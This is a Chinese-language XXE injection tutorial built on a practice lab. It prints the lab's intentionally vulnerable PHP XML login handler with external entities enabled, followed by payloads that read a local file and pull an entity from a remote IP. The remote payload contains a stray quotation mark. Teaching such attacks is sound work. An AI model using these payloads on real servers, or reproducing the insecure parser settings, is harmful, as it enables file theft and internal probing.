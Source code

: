 # XXE 注入

https://xz.aliyun.com/t/3357
https://github.com/c0ny1/xxe-lab   靶场资源
https://zhuanlan.zhihu.com/p/31629438


## 什么是xxe注入

> XXE(XML External Entity Injection) 全称为 XML 外部实体注入

### XML和DTD的关系

那DTD又是什么呢。DTD（Document Type Definition）即文档类型定义，是一种XML约束模式语言，属于XML文件组成的一部分。下面是我们的一个常见的XML文档，最上面第一行是文档声明，中间的部分就是文档类型定义也就是我们的DTD，最下面的部分就是XML的主体各种文档元素了。DTD主要就起到了告诉解释器该怎么样解释这个XML文档的作用。

![](img/1.jpg)


DTD文档有三种应用形式：

1.内部DTD文档


     <!DOCTYPE 根元素[定义内容]>

2.外部DTD文档

    <!DOCTYPE 根元素 SYSTEM "DTD文件路径">

3.内外部DTD文档结合

    <!DOCTYPE 根元素 SYSTEM "DTD文档路径"[定义内容]>




> 其中第二三种类型中的SYSTEM是一种标识符，可以理解为：`根据DTD文件路径`，加载这个文件的内容，并赋值给前面的根元素，`该标识符意味着该实体将从外部来源获取内容。`


### XXE漏洞的原理

既然XML可以从外部读取`DTD文件`，那我们就自然地想到了如`果将路径换成另一个文件的路径`，那么服务器在解析这个XML的时候就会把那个文件的内容赋值给SYSTEM前面的根元素中，

>只要我们在XML中让前面的根元素的内容显示出来，不就可以读取那个文件的内容了。`这就造成了一个任意文件读取的漏洞。`

这些攻击的范围可以扩展到客户端内存损坏，任意代码执行，甚至服务中断。

那如果我们指向的是一个`内网主机的端口呢`？是否会给出错误信息，我们是不是可以从`错误信息上来判断内网主机这个端口是否开放`，这就造成了一个内部端口被探测的问题。

如果我们递归地调用XML定义，一次性调用巨量的定义，那么服务器的内存就会被消耗完，造成了`拒绝服务攻击。`

可能会造成以下危害：

- 网络异常缓慢（打开文件或访问网站）
- 特定网站无法访问
- 无法访问任何网站
- 垃圾邮件的数量急剧增加[4]
- 无线或有线网络连接异常断开
- 长时间尝试访问网站或任何互联网服务时被拒绝
- 服务器容易断线、卡顿


## 开始渗透

![](img/1.png)

国际惯例，先抓包看看

![](img/2.png)

>到了我们发送的用户名/密码都是以POST形式发送的。并且很像是一个文档！

白盒渗透：

查看源代码，康康到底逊不逊啦

```php
<?php
/**
* autor: c0ny1
* date: 2018-2-7
*/

$USERNAME = 'admin'; //账号
$PASSWORD = 'admin'; //密码
$result = null;

libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');//这里面因为没有xml文档所以用的是php的伪协议来获取我们发送的xml文档

try{
    $dom = new DOMDocument();//创建XML的对象
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);//将我们发送的字符串生成xml文档。
    $creds = simplexml_import_dom($dom);//这一步感觉相当于实例化xml文档

    $username = $creds->username;//获取username标签的值
    $password = $creds->password;//获取password标签的值

    if($username == $USERNAME && $password == $PASSWORD){//将获取的值与前面的进行比较。...
        $result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);//注意必须要有username这个标签，不然的话找不到username,就没有了输出了，我们也不能通过回显来获取信息了
    }else{
        $result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);//与上方相同，都会输出username的值，都可以达到我们的目的
    }    
}catch(Exception $e){
    $result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}

header('Content-Type: text/html; charset=utf-8');
echo $result;
?>
```

目标明确，只要我们构造的payload最后输出在username里面就行了，于是构造

## 普通的XXE

```html
<?xml version="1.0"?>
<!DOCTYPE Mikasa [
<!ENTITY test SYSTEM  "file:///c:/jojo.txt">
]>                 \\要确保有这个文件。
<user><username>&test;</username><password>Mikasa</password></user>
```

![](img/3.png)

输出了文件内容


## 远程XXE

```html
<?xml version="1.0"?>
<!DOCTYPE Mikasa [
<!ENTITY test SYSTEM  ""http://192.168.156.77/jojo.txt">
]>                 \\要确保有这个文件。
<user><username>&test;</username><password>Mikasa</password></user>
```




























































